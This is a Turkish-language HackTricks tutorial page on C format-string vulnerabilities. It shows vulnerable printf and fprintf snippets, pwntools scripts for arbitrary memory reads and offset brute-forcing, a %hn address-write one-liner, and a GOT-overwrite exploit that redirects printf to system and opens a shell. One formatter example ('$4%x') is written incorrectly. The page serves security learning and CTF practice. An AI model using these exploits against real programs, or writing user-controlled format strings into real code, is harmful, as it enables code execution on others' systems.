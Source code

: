 # Format Strings

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

C'de **`printf`** bazı metinleri **yazdırmak için** kullanılabilen bir fonksiyondur. Bu fonksiyonun beklediği **ilk parametre**, **formatlayıcılarla birlikte ham metin**'dir. Beklenen **sonraki parametreler**, ham metindeki **formatlayıcıları** **değiştirmek için** **değerler**'dir.

Diğer savunmasız fonksiyonlar **`sprintf()`** ve **`fprintf()`**'dir.

Zafiyet, bir **saldırgan metni bu fonksiyona ilk argüman olarak kullanıldığında** ortaya çıkar. Saldırgan, **printf format** dizesinin yeteneklerini kötüye kullanarak **herhangi bir adreste (okunabilir/yazılabilir)** **herhangi bir veriyi okumak ve yazmak için** özel bir **girdi oluşturma** yeteneğine sahip olacaktır. Bu şekilde **rastgele kod çalıştırma** imkanı bulur.

#### Formatlayıcılar:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Örnekler:**

* Açık örnek:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normal Kullanım:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Eksik Argümanlarla:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf savunmasız:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Pointer'lara Erişim**

Format **`%<n>$x`**, burada `n` bir sayı, printf'e n parametresini (stack'ten) seçmesini belirtir. Yani, printf kullanarak stack'ten 4. parametreyi okumak istiyorsanız şunu yapabilirsiniz:
```c
printf("%x %x %x %x")
```
ve birinci parametreden dördüncü parametreye kadar okuyabilirsiniz.

Ya da şunu yapabilirsiniz:
```c
printf("$4%x")
```
ve doğrudan dördüncüyü okuyun.

Saldırganın `pr`**`intf` parametresini kontrol ettiğini unutmayın, bu temelde** onun girdiğinin `printf` çağrıldığında yığında olacağı anlamına gelir, bu da belirli bellek adreslerini yığında yazabileceği anlamına gelir.

{% hint style="danger" %}
Bu girişi kontrol eden bir saldırgan, **yığında rastgele adresler ekleyebilecek ve `printf`'in bunlara erişmesini sağlayabilecektir**. Bir sonraki bölümde bu davranışın nasıl kullanılacağı açıklanacaktır.
{% endhint %}

## **Rastgele Okuma**

Biçimlendiriciyi **`%n$s`** kullanarak **`printf`'in** **n pozisyonunda** bulunan **adres**i alması ve **bunu bir dizeymiş gibi yazdırması** mümkündür (0x00 bulunana kadar yazdır). Yani, eğer ikili dosyanın temel adresi **`0x8048000`** ise ve kullanıcı girdisinin yığında 4. pozisyonda başladığını biliyorsak, ikilinin başlangıcını yazdırmak mümkündür:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Girişin başına 0x8048000 adresini koyamayacağınızı unutmayın çünkü dize, o adresin sonunda 0x00 ile kesilecektir.
{% endhint %}

### Ofseti Bul

Girişinizin ofsetini bulmak için 4 veya 8 bayt (`0x41414141`) gönderebilir ve ardından **`%1$x`** ile **arttırarak** `A'ları` alana kadar değeri artırabilirsiniz.

<details>

<summary>Brute Force printf ofseti</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Ne kadar faydalı

Rastgele okumalar şunlar için faydalı olabilir:

* **Bellekten** **ikili** **veriyi** **dökme**
* **Hassas** **bilgilerin** saklandığı **belleğin belirli kısımlarına** erişim sağlama (örneğin, bu [**CTF meydan okumasında**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) olduğu gibi canary'ler, şifreleme anahtarları veya özel şifreler)

## **Rastgele Yazma**

Formatlayıcı **`$<num>%n`** **yazılan baytların sayısını** **belirtilen adrese** **yazar**. Eğer bir saldırgan printf ile istediği kadar karakter yazabiliyorsa, **`$<num>%n`**'nin rastgele bir sayıyı rastgele bir adrese yazmasını sağlayabilir.

Neyse ki, 9999 sayısını yazmak için girdiye 9999 "A" eklemek gerekmez, bu nedenle **`%.<num-write>%<num>$n`** formatlayıcısını kullanarak **`<num-write>`** sayısını **`num` konumunu gösteren adrese** yazmak mümkündür.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Ancak, genellikle `0x08049724` gibi bir adres yazmak için (bu, bir seferde yazılması gereken BÜYÜK bir sayıdır), **`$hn`** kullanılır, **`$n`** yerine. Bu, **sadece 2 Bayt** yazmaya olanak tanır. Bu nedenle, bu işlem iki kez yapılır; bir kez adresin en yüksek 2B'si için ve bir kez de en düşük olanlar için.

Bu nedenle, bu zafiyet **herhangi bir adrese (keyfi yazma)** **herhangi bir şeyi yazmaya** olanak tanır.

Bu örnekte, hedef, daha sonra çağrılacak olan **GOT** tablosundaki bir **fonksiyonun** **adresini** **üst üste yazmak** olacaktır. Bu, diğer keyfi yazma ile exec tekniklerini kötüye kullanabilir:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Bir **fonksiyonu** **üst üste yazacağız** ki bu **kullanıcıdan** **argümanlarını** **alır** ve **`system`** **fonksiyonuna** **işaret eder**.\
Yazı adresini yazmak için genellikle 2 adım gereklidir: Önce adresin 2 Bayt'ını yazarsınız ve sonra diğer 2'sini. Bunu yapmak için **`$hn`** kullanılır.

* **HOB**, adresin en yüksek 2 baytına çağrılır
* **LOB**, adresin en düşük 2 baytına çağrılır

Daha sonra, format dizesinin nasıl çalıştığı nedeniyle, önce \[HOB, LOB] içindeki en küçüğü **yazmanız** ve ardından diğerini yazmanız gerekir.

Eğer HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Eğer HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Şablonu

Bu tür bir zafiyet için bir exploit hazırlamak üzere bir **şablon** bulabilirsiniz:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ya da [**buradan**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) bu temel örneği inceleyebilirsiniz:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings to BOF

Bir format string zafiyetinin yazma eylemlerini kötüye kullanarak **stack adreslerine yazmak** ve **buffer overflow** türü bir zafiyeti istismar etmek mümkündür.

## Diğer Örnekler & Referanslar

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, relro yok, canary yok, nx, pie yok, stack'ten flag'i sızdırmak için format string'lerin temel kullanımı (işlem akışını değiştirmeye gerek yok)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro var, canary yok, nx, pie yok, `fflush` adresini win fonksiyonu ile (ret2win) üzerine yazmak için format string
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro var, canary yok, nx, pie yok, `.fini_array` içinde main'e bir adres yazmak için format string (böylece akış bir kez daha döner) ve `strlen`'a işaret eden GOT tablosundaki `system` adresini yazmak. Akış main'e geri döndüğünde, kullanıcı girişi ile `strlen` çalıştırılır ve `system`'a işaret eder, geçilen komutları çalıştırır.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
